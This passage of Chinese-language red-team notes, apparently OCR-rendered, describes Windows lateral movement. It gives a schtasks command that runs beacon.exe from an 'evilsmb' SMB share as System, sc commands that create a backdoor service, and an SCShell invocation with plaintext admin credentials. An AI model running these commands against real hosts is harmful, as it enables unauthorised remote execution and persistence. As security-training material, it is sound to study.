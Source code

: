 ## UNC路径加载执行

`Windows`系统中使用`UNC`路径来访问网络共享资源，格式如下：

```powershell
\\servername\sharename\directory\filename
```

实现方式：

- 搭建SMB匿名共享服务，并将生成的攻击载荷放入共享目录（计划任务、创建服务、`PsExec`、`WMI`、`DCOM`等远程执行方法均可）
- 在远程主机创建计划任务，使用`UNC`路径加载位于`SMB`匿名共享中的攻击载荷并执行

```powershell
schtasks /Create /S 192.168.93.30 /TN Backdoor /SC minute /MO 1 /TR \\192.168.93.10\evilsmb\beacon.exe /RU System /F /U Administrator /P H3rmesk1t@123
```

# 利用系统服务

## 创建远程服务

除了创建计划任务，攻击者还可以通过在远程主机上创建系统服务的方式，在远程主机上运行指定的程序或命令，该攻击方式需要拥有两端主机的管理员权限和`IPC$`连接，具体操作如下：

- 利用已建立的共享连接向远程主机上传攻击载荷；
- 利用已建立的`IPC`连接在远程主机上创建系统服务，执行命令。

```powershell
# binpath指定服务启动时运行的二进制文件, 注意=后面需要由一个空格
sc \\192.168.93.30 create Backdoor binpath= "cmd.exe" /k C:\beacon.exe

# 立即启动创建的系统服务, 此时可能会提示错误, 但是已经获取了远程主机的权限
sc \\192.168.93.30 start Backdoor

# 删除服务
sc \\192.168.93.30 delete Backdoor
```

## SCShell

`SCShell`是一款利用系统服务的无文件横向移动工具，需要提供远程主机的管理员权限用户的凭据，并且需要知道远程主机上的系统服务名称，利用方法如下：

```powershell
# SCShell.exe <target> <service name> <payload> <domain> <username> <password>
SCShell.exe 192.168.93
.30 Backdoor "C:\Windows\System32\cmd.exe /c calc" hacker.com Administrator H3rmesk1t@123
```

# Remote Desktop Utilization

Remote Desktop Protocol (`RDP`) is a feature that Microsoft has provided since `Windows Server 2000`. Users can log in and manage remote hosts through this function. The remote desktop protocol listens to the `TCP 3389` port by default.
